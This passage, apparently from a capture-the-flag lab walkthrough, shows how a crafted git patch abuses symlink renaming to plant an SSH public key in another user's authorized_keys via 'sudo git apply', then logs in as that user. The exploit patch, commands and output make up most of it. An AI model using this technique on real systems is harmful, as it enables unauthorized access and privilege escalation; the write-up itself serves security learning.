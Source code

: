 I’ll create a `patch` file again, this time changing `0xdf` to `authorized_keys`, and `busted` to an SSH public key:

```
diff --git a/symlink b/renamed-symlink
similarity index 100%
rename from symlink
rename to renamed-symlink
--
diff --git /dev/null b/renamed-symlink/authorized_keys
new file mode 100644
index 0000000..039727e
--- /dev/null
+++ b/renamed-symlink/authorized_keys
@@ -0,0 +1,1 @@
+ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing

```

When I run this, it fails:

```
cbrown@snoopy:/dev/shm/ssh$ sudo -u sbrown git apply -v patch
[sudo] password for cbrown:
warning: unable to unlink 'symlink': Permission denied
error: unable to write file 'renamed-symlink' mode 120000: No such file or directory

```

The `warning` is important to notice here. It’s trying to “unlink” `symlink` and failing. That’s because sbrown doesn’t have permissions to. The directory is owned by cbrown, and all users can’t write to it:

```
cbrown@snoopy:/dev/shm$ ls -l
total 0
drwxrwxr-x 3 cbrown cbrown 100 May 10 16:27 poc
drwxrwxr-x 3 cbrown cbrown 100 May 10 16:32 ssh

```

If I change the permissions on the dir such that all users can write, it works without error:

```
cbrown@snoopy:/dev/shm$ chmod 777 ssh/
cbrown@snoopy:/dev/shm$ cd ssh/
cbrown@snoopy:/dev/shm/ssh$ sudo -u sbrown git apply patch
cbrown@snoopy:/dev/shm/ssh$

```

### SSH

With my key in place, I can SSH into the box as sbrown:

```
oxdf@hacky$ ssh -i ~/keys/ed25519_gen sbrown@snoopy.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
...[snip]...
sbrown@snoopy:~$

```
